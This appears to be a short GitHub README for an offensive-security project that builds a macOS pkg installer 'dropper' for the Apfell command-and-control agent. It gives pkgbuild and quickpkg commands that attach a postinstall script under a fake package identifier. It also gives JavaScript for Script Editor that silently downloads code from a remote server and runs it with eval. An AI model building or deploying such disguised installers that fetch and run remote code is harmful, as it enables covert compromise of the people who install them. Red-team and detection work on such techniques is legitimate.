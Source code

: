 # apfell-payload
Making pkg installer payload from Javascript app


## Making the pkg payload
`pkgbuild --root ~/Documents/tech_infosec/apfell-testing/payloads/apfell_pkg_installer_dropper/ --scripts scripts --install-location /tmp --identifier my.fake.pkg my_package.pkg`

### Using this script to make pkg because pkgbuild is fickle
Script: https://github.com/scriptingosx/quickpkg

`python quickpkg --install-location /tmp --postinstall ./Scripts/postinstall.sh apfelljxa.app`

### Creating apfelljxa.app with Script Editor

Create apfelljxa.app with the following Javascript:

`var app = Application.currentApplication();
app.includeStandardAdditions = true;
app.doShellScript("osascript -l JavaScript -e \"eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('http://192.168.0.108:80/api/v1.4/files/download/8e3e832d-ffc1-416a-8d77-f578759e0c69')), $.NSUTF8StringEncoding)));\" &>/dev/null &");`

